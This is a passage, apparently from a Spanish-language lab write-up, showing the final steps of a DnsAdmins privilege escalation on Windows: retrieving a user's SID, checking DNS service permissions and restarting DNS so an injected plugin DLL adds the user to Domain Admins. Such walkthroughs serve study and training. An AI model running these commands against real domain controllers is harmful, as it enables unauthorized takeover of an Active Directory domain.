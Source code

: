 
Para que estos cambios tengan efecto, el servicio DNS debe reiniciarse. Procedemos a verificar si tenemos los permisos para reiniciar el servicio.

Obtenemos nuestro `SID`:
```powershell
wmic useraccount where name="netadm" get sid
```
Este comando no funciona por lo que lo modificamos:
```powershell
wmic useraccount where "name='netadm'" get sid
```

<img width="693" height="70" alt="image" src="https://github.com/user-attachments/assets/fcbb9c52-c6af-4e93-9f08-07118acbc1fb" />

Obtenemos nuestro `SID`: `S-1-5-21-669053619-2741956077-1013132368-1109`


Ahora que tenemos nuestro `SID` procedemos a mostrar el descriptor de seguridad de `DNS`:
```powershell
sc.exe sdshow DNS
```

<img width="1016" height="169" alt="image" src="https://github.com/user-attachments/assets/4e89759a-7ad1-4ff1-a1fe-9376657b49fc" />

Observamos que `RPWP` está vinculado a nuestro `SID`, que se traduce a `SERVICE_START` y `SERVICE_STOP`.

Esto quiere decir que tenemos permisos suficientes para reiniciar el servicio `DNS`.

Pausamos el servicio:
```cmd
sc stop dns
```

Iniciamos el servicio nuevamente:
```cmd
sc start dns
```

Vemos que los comandos no arrojan una salida, por lo que es posible que no estén funcionando. Utilizamos el comando completo:

```cmd
sc.exe stop dns
```
```cmd
sc.exe start dns
```

<img width="735" height="384" alt="image" src="https://github.com/user-attachments/assets/6a9727a5-3417-4b6f-902d-b28088ec440d" />

`Nota`: A veces, al correr `sc start` o `net start` desde `PowerShell`, se aplica un contexto de ejecución diferente, y el reinicio no llega a recargar completamente los componentes del servicio (especialmente las DLL de plugin). Con `sc.exe`, el servicio se reinicia completamente, y Windows vuelve a cargar todas las dependencias.

Tras reinicio exitoso, si la DLL ejecutaba `net group "Domain Admins" ...` deberíamos ver al usuario añadido al grupo `Domain Admins`.
